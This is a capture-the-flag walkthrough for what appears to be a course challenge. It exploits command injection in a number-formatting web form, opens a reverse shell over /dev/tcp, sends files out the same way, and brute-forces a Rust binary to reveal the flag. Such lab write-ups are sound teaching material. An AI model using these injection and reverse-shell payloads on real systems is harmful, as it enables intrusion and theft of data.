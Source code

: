 ## Getting started

```bash
docker compose up
# or if you only got the docker image
gzip -d numfui-VERSION-docker.tar.gz
docker load -i numfui-VERSION-docker.tar
docker run -dp 127.0.0.1:8000:80 numfui:VERSION
# the webservice will be available on http://localhost:8000
```

## Evaluation

The host has a webserver open on 8080.

## Website

We can execute commands with the following POST parameters to index.

```
number=124|echo $(id)&format=hex
```

We can use this to get a reverse shell like this (replace 172.17.0.1 with your IP):
```
number=10%20%7Cbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27%3Becho%20A&format=hex
```

This executes `sh -i >& /dev/tcp/172.17.0.1/9001 0>&1` on the target (url
encoded).

Before making the request, listen for a reverse shell

```
$ nc -lnvp 9001 # on host
```

## Foothold

We may use the following to stabilize our reverse shell a bit

```bash
# on target
python -c "import pty; pty.spawn('/bin/bash')" # OR
python3 -c "import pty; pty.spawn('/bin/bash')"

# background with <C-z>

stty raw -echo && fg
export TERM=xterm-256-color
```

Now, we can explore a bit. We see that we are logged in as `dave`, not `root` or
`www-data`. In `/home/dave` there are many files, including some PDF files,
a `notes.txt`, and some binaries in `/home/dave/.local/bin`.

The notes.txt file contains a hint that the user has hidden a "password" in an
program. The file also mentions that he made a little program that calculates
time. Indeed, we find such a program in `/home/dave/.local/bin/`.

```bash
dave@25675c48a0e8:~$ /home/dave/.local/bin/timars
Required option 'from' missing
Usage: /home/dave/.local/bin/timars FILE [options]

Options:
    -f, --from HH:MM    calculate time starting from this time
    -t, --to HH:MM      calculate time until this time
    -p, --pause HH:MM   remove this much time from the result
    -h, --help          print this help menu
```

The help menu of the program does not explain too much and has a wrong usage
section, but it's clear that it is made to calculate time differences.

```bash
dave@25675c48a0e8:~$ /home/dave/.local/bin/timars -f 09:00 -t 15:30 -p 0:25
from            : 09:00
to              : 15:30
pause           : 00:25
difference      : 06:05
```

The "password" must be hidden somewhere in that program.

Since this is a docker container that only exposes port 80, which already has
the web application running, we need to be a bit more creative to download the
files. We cannot simply do `python3 -m http.server 81`, since other ports are
not accessible. Since we do not have `root` access, we cannot install other
software like `ssh` or `curl`.

However, we can do something similar to how we got the reverse shell:

```bash
nc -lnvp 9002 > notes.txt # on host
cat notes.txt > /dev/tcp/172.17.0.1/9002

nc -lnvp 9002 > timars # on host
cat timars > /dev/tcp/172.17.0.1/9002
```

## Analyzing timars

Since the notes mentioned that there is a password there, we could try using
`strings` to see if there are any flag/password like strings. The file contains
a lot of strings, but none of them will be the passowrd, since that string is
obfuscated.

Instead, we might try to analyze this binary with a reverse engineering tool
like cutter. Since Rust (crab) binaries are almost always statically linked,
the tool finds a lot of functions and it is not clear which does what. The
ghidra decompiler decompiles code as C, which is not very intuitive. The binary
is stripped and compiled in release mode.

For me, the Rust binary is rather indecipherable. Instead, I opt for
bruteforcing the parameters of the executable. Since we have 6 parameters to
bruteforce, this involves O(x^6) complexity:

```python
for cth in range(23):
    for ctm in range(59):
        for cfh in range(23):
            for cfm in range(59):
                for cph in range(23):
                    for cpm in range(59):
                        exe(cth,ctm,cfh,cfm,cph,cpm)
```

Using parallel processing and a compiled language makes this possible in
a somewhat okay time. However, if we read the source code of the website, we get
a hint:

```python
if form.number.data == "1337":
    output += "\t\n1337 1z my f4v0R173 NUM83R, S0 k3wl"
```

Now, if we fix the pause parameter to 13:37 and bruteforce the other values:

```
cscherr@LP22034 ...rs/timars/challenge % cp ../target/release/bf . && ./bf
to: 01:00 from: 00:00 pause: 13:37 => len: 61
to: 02:00 from: 00:00 pause: 13:37 => len: 61
to: 00:00 from: 00:00 pause: 13:37 => len: 61
to: 08:00 from: 00:00 pause: 13:37 => len: 60
to: 14:00 from: 00:00 pause: 13:37 => len: 60
to: 15:00 from: 00:00 pause: 13:37 => len: 60
to: 11:00 from: 00:00 pause: 13:37 => len: 60
to: 05:00 from: 00:00 pause: 13:37 => len: 60
to: 03:00 from: 00:00 pause: 13:37 => len: 61
to: 17:00 from: 00:00 pause: 13:37 => len: 60
to: 13:00 from: 00:00 pause: 13:37 => len: 60
to: 20:00 from: 00:00 pause: 13:37 => len: 60
to: 06:00 from: 00:00 pause: 13:37 => len: 60
to: 04:00 from: 00:00 pause: 13:37 => len: 61
to: 12:00 from: 00:00 pause: 13:37 => len: 60
to: 18:00 from: 00:00 pause: 13:37 => len: 60

              ./timars -f 00:46 -t 02:00 -p 13:37
              from              : 00:46
to              : 02:00
pause           : 13:37
difference      : -13:37
F~L~Â~G{E1nb38V9a3V5e86HzlY27UFAErIP5mA34kES9fbu}

              ==================
              SOMETHING UNUSUAL!
              LEN: 112


```

The length of the output is significantly different, and the flag (password) is
printed. Challenge solved!

## References

- [Easy Reverse Shells](https://www.revshells.com/)
- [timars repository](https://git.cscherr.de/PlexSheep/timars/src/tag/v0.1.0), contains bruteforce code and code for timars itself
- [repository for this challenge](https://github.com/PlexSheep/dhbw-offsec-pl)
